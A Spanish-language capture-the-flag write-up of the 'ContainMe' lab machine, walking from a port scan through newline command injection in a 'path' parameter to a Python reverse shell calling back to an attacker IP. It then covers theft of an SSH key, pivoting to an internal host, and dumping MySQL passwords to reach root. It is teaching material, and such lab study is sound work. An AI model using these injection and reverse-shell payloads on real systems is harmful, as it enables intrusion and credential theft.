# ContainMe

Comenzamos realizando un escaneo de puertos en la máquina objetivo.

```bash
nmap -sV -sC -p- -T4 <ip>
```

* -sV: Sondeo de puertos abiertos para determinar la información del servicio/versión
* -sC: equivalente a _--script=default_.
* -p-: Escanea todos los puertos de la Red (65536)
* -T4: La velocidad de escaneo de puertos.

Se han identificado cuatro puertos abiertos en el sistema: el puerto `22` para `SSH`, el `80` para `http`, el `2222`, para `EtherNetIP-1?` y el `8022` para `ssh`


<figure><figcaption></figcaption></figure>

Realizamos la enumeración de `directorios`, pero no encontramos nada.

<figure><figcaption></figcaption></figure>

Visitamos los directorios disponibles y encontramos algo interesante; parece un resultado similar a un `ls $path`, que nos muestra un directorio dentro del servidor.

<figure><figcaption></figcaption></figure>

Al examinar el código de la `web`, encontramos la siguiente información:

```
<!--  where is the path ?  -->
```

<figure><figcaption></figcaption></figure>


Al igual que cualquier directorio, esto puede estar implícito tanto en la `URL` como en las variables que tengamos disponibles. 

Al buscar variables con `Burp Suite`, no encontramos nada, pero dado que tampoco están en la URL, tal vez tengamos que añadirlas nosotros mismos. Debería quedar de la siguiente manera, ya que en el mensaje anterior se menciona `path` como variable.


```
http://<ip>:<port>/index.php?path=/home
```

Nos muestra el contenido de este directorio.

<figure><figcaption></figcaption></figure>

Sin embargo, no podemos hacer mucho, por lo que necesitamos implementar nuestros métodos para eludir el comando `ls` e inyectar nuestros propios comandos. Para ello, utilizamos un salto de línea.

```
%A0
```

Debería quedar de la siguiente manera para verificar si funciona:

```
/index.php?path=/home%0Acat%20/etc/passwd
```

<figure><figcaption></figcaption></figure>

Dado que realmente funciona, el siguiente paso es implementar nuestro comando para obtener una `reverse shell` en el servidor.

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Para implementar nuestra `reverse shell`, lo haremos a través de la `URL`, y debería quedar de la siguiente manera.

```
http://<ip>:<port>/index.php?path=%0Apython3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.128",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<figure><figcaption></figcaption></figure>

# \www-data

Al realizar la enumeración, encontramos un archivo en `/home/mike` llamado `./1cryptupx`. Sin embargo, al ejecutarlo, no aparece nada, ni siquiera al enviarle argumentos.

```
./1cryptupx mike
```

<figure><figcaption></figcaption></figure>

Sin embargo, al enumerar con `linpeas.sh`, encontramos un directorio relacionado con `crypt` en `/usr/share/man/zh_TW/`. Al ejecutarlo como `mike`, obtenemos privilegios de `root`.

```
./crypt mike
```

<figure><figcaption></figcaption></figure>

Con estos privilegios, podemos copiar el archivo `id_rsa` de `mike` para obtener una `shell remota`.

```
/home/mike/.shh

cat id_rsa
```

Lo copiamos a nuestra máquina para intentar acceder mediante `SSH`, pero no es posible, ya que siempre solicita la contraseña a pesar de tener el archivo `id_rsa`. Esto sugiere que podría haber otra interfaz.

<figure><figcaption></figcaption></figure>

Para ver las interfaces de red, podemos utilizar el siguiente comando.

```
ip a
```

<figure><figcaption></figcaption></figure>

Observamos que tenemos otra interfaz de red, que es `172.16.20.2/24`. Esto sugiere que podría ser donde se aloja el archivo `id_rsa` de `mike`. Realizamos una prueba para acceder mediante SSH, pero no logramos entrar.

<figure><figcaption></figcaption></figure>

Esto indica que el archivo `id_rsa` está corrupto o que es necesario realizar una enumeración de la red para identificar si hay más direcciones IP disponibles para acceder. 

Después de llevar a cabo la enumeración, encontramos la dirección IP `172.16.20.6`. Decidimos probarla y, efectivamente, funciona a la perfección.

```
ssh -i /home/mike/.ssh/id_rsa mike@172.16.20.6
```

<figure><figcaption></figcaption></figure>

# \mike

Al realizar la enumeración con `linpeas.sh`, se nos indica que tenemos acceso a `MySQL`, pero aparece el siguiente mensaje.

```
ERROR 1045 (28000): Access denied for user 'mike'@'localhost' (using password: NO)
```

<figure><figcaption></figcaption></figure>

Aunque no tengamos acceso directo a `MySQL`, podemos ingresar de manera indirecta utilizando el siguiente comando para engañarlo.

```
mysql -umike -ppassword
```

<figure><figcaption></figcaption></figure>

Una vez que estamos en este punto, podemos enumerar la base de datos. Esto es sencillo de realizar, ya que no hay muchas bases de datos disponibles.

```
mysql> show databases;

mysql> use accounts;

mysql> show tables;

mysql> select * from users;
```

<figure><figcaption></figcaption></figure>

Esto nos proporciona las contraseñas de los usuarios `mike` y `root`. Ahora solo necesitamos salir del proceso de `MySQL` y acceder como `root`.

```
su
```

En el directorio `/root` encontramos un archivo `mike.zip` perteneciente a `mike`. Al descomprimirlo, se nos solicitará una contraseña, que es la que obtuvimos anteriormente.

```
unzip mike.zip
```

<figure><figcaption></figcaption></figure>

Modificamos los permisos para poder ejecutarlo nosotros como `root`.

```
chmod +x mike
```

Lo ejecutamos y esto nos proporciona la bandera que necesitamos para completar el laboratorio.


-----
>
>*Ten cuidado con la tristeza, ya que puede convertirse en un vicio.* ~**Gustave Flaubert**
>
>*Cuando se afirma que la tristeza es una adicción, se refiere a cómo puede transformarse en un hábito del alma. No se trata solo de experimentar dolor, sino de aferrarse a ella y alimentarse de su presencia cada día.*
>
>*El verdadero peligro radica en permitir que la tristeza se sienta demasiado cómoda, hasta el punto de olvidar que la vida también requiere movimiento, alegría y creatividad.*
>
><figure><figcaption></figcaption></figure>